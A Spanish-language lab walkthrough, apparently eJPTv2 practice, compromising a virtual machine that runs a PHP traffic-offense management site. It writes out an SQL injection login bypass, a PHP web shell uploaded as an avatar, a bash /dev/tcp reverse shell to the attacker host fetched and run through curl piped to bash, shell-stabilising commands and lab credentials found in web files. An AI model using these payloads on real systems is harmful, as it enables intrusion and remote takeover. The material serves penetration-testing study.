 Escaneo:

```
Nmap scan report for 10.0.2.9
Host is up (0.00040s latency).
Not shown: 6 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Online Traffic Offense Management System - PHP
MAC Address: 08:00:27:CC:1D:08 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

Veamos el servicio web:

![[Pasted image 20250705145124.png]]

Los elementos no cargan de forma correcta, por lo que puede ser indicio de que se esté aplicando VirtualHosting, revisemos el código duente:

![[Pasted image 20250705145243.png]]

Añadamos esa dirección dns al `/etc/hosts`.

![[Pasted image 20250705145354.png]]

![[Pasted image 20250705145516.png]]

Ahora carga de forma correcta. Veamos ese panel de login, e intentemos iniciar con credenciales por defecto, como admin:admin

![[Pasted image 20250705145758.png]]

Probemos realizar una Inyección SQL simple, `admin' or 1=1-- -`

![[Pasted image 20250705145924.png]]

Ha funcionado. Exploremos un poco la página.

![[Pasted image 20250705150406.png]]

Vemos que podemos cambiar el avatar del usuario, a través de una subida de archivo. Intentaremos subir un código malicioso en php, que mediande una etiqueta "cmd" pueda inyectar comandos:

```
<?php system($_GET['cmd']); ?>
```

![[Pasted image 20250705151339.png]]

Lo hemos subido correctamente, ahora intentaremos abrir la imagen en una nueva pestaña:

![[Pasted image 20250705151700.png]]

![[Pasted image 20250705151746.png]]

Tenemos ejecución remota de comandos. Ahora nos lanzaremos una reverse shell a nuestra máquina atacante. Creamos un archivo `index.html` que contenga este comando en bash:

```
bash -i >& /dev/tcp/10.0.2.4/443 0>&1
```

```
echo "bash -i >& /dev/tcp/10.0.2.4/443 0>&1" > index.html
```

Ahora montamos un servidor http con python en nuestra máquina atacante:

```
sudo python3 -m http.server 80
```

![[Pasted image 20250705152824.png]]

Y nos ponemos en escucha con netcat por el puerto 443.

```
sudo nc -lvnp 443
```

![[Pasted image 20250705153223.png]]

Ahora, en la url de la web de la máquina victima, colocamos lo siguiente:

```
curl+http://10.0.2.4+|bash
```

![[Pasted image 20250705153341.png]]

![[Pasted image 20250705153415.png]]

Hemos obtenido acceso a la máquina victima, ahora, haremos el tratamiento de la tty para tener una shell interactiva:

```
script /dev/null -c bash
```

Luego, pulsamos Cntrl + z para salir de la terminal e introducimos el segundo comando:

```
stty raw echo; fg
```

Y debajo de este comando a la derecha, escribimos reset xterm para volver a la terminal ya lista.

```
reset xterm
```

En caso de no funcionar aún el Ctrl + l para limpiar la terminal, realizamos también lo siguiente:

```
export SHELL=bash
export TERM=xterm
```

Para que las proporciones de la terminal sean iguales a las de nuestro sistema debemos ajustar tanto las filas como las columnas. Por ejemplo si abrimos o creamos un archivo con nano este se verá pequeño. Para ajustar estas proporciones primero debemos ir a una de nuestras ventas y ver que proporciones tiene:

```
stty size
```

![[Pasted image 20250705153643.png]]

En mi caso mi terminal tiene 53 filas y 236 columnas. Ahora ajustaremos con estos parámetros nuestra Reverse Shell. Para ello escribimos lo siguiente en la terminal de la Reverse Shell:

```
stty rows 53 columns 236
```

## Escalada de privilegios

Enumeramos los archivos y directorios de la página web:

![[Pasted image 20250705154459.png]]

Vemos un usuario `bella` y una password `be114yTU`. Intentemos cambiar de usuario con esas credenciales.

![[Pasted image 20250705154651.png]]

La escalada de privilegios se sale del scope del eJPTv2
